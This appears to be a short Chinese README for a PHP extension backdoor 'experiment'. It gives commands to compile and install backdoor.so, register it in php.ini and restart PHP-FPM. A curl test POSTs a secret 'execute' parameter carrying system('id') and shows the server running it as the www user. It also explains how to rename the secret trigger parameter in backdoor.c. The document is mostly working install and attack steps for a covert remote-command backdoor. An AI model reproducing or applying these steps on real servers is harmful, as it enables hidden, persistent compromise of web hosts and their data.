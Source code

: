 # php扩展后门小实验

> 环境 Ubuntu 16.04, PHP 5.6

**编译安装**

```shell
# phpize && ./configure && make && sudo make install
```

修改配置文件 `php.ini`, 增加 `extension=backdoor.so`

重启PHP服务 `srevice php-fpm restart`

----

**测试**

```shell
# curl http://localhost/index.php --data "execute=system('id');"
uid=1002(www) gid=1002(www) groups=1002(www)
```

----

**自定义POST参数**

修改文件 `backdoor.c`

```c
char* secret_string = "execute";
# char* secret_string = "POST参数";
```
